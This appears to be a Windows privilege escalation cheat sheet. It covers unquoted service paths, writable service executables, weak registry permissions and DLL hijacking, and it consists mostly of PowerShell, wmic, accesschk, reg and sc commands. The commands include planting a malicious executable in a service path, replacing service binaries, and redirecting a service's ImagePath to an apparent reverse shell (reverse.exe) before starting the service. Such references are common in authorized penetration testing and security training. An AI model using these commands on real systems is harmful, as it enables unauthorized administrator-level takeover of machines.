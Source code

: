 ### Unquoted Service Paths

```shell
# list running and stopped services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
# or cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """"

# using icacls check all parts of the path
# upload a malicious file to the path, for example, if the user can write to the 'Current Version' folder:
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

# upload the malicious file to that folder, naming it 'current.exe'
# start the service
sc start <svc_name>
```

### Insecure Service Executables

```shell
# in winpeas look for a service which has the following
File Permissions: Everyone [AllAccess]

# replace the executable with a malicious file and start the service
sc start <service>
```

### Weak Registry Permissions

```shell
# in Winpeas look for a service which has the following
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl])

# check for KEY_ALL_ACCESS
accesschk /acceptula -uvwqk <path of registry> 

# Service Information from regedit, identify the variable that holds the executable path
reg query <reg-path>

# ImagePath is the variable here
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

sc start <service>
```

## DLL Hijacking

```shell
# list apps
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# check if folder is writable
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```
